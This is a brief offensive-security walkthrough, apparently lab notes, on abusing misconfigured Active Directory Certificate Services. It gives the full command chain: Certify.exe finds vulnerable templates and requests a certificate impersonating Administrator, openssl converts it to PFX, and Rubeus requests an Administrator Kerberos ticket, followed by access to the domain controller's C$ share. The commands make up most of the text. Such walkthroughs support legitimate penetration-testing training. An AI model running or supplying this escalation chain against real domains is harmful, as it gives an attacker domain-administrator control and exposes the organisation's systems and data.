 	Description:
	
		Misconfigs in AD CS

	Usage: 

		Using Certify.exe to enum the domain: https://github.com/GhostPack/Certify
		
			.\Certify.exe find /vulnerable
			.\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator
			
		Once the attack finishes, we will obtain a certificate successfully. The command generates a `PEM` certificate and displays it as base64. We need to convert the `PEM` certificate to the [PFX](https://learn.microsoft.com/en-us/windows-hardware/drivers/install/personal-information-exchange---pfx--files) format by running the command mentioned in the output of Certify (when asked for the password, press `Enter` without providing one), however, to be on the safe side, let's first execute the below command to avoid bad formatting of the `PEM` file.

			sed -i 's/\s\s\+/\n/g' cert.pem
			openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

		Now that we have the certificate in a usable `PFX` format (which `Rubeus` supports), we can request a Kerberos TGT for the account `Administrator` and authenticate with the certificate:

			.\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /pt

		`C$` share on DC1 to confirm perms
	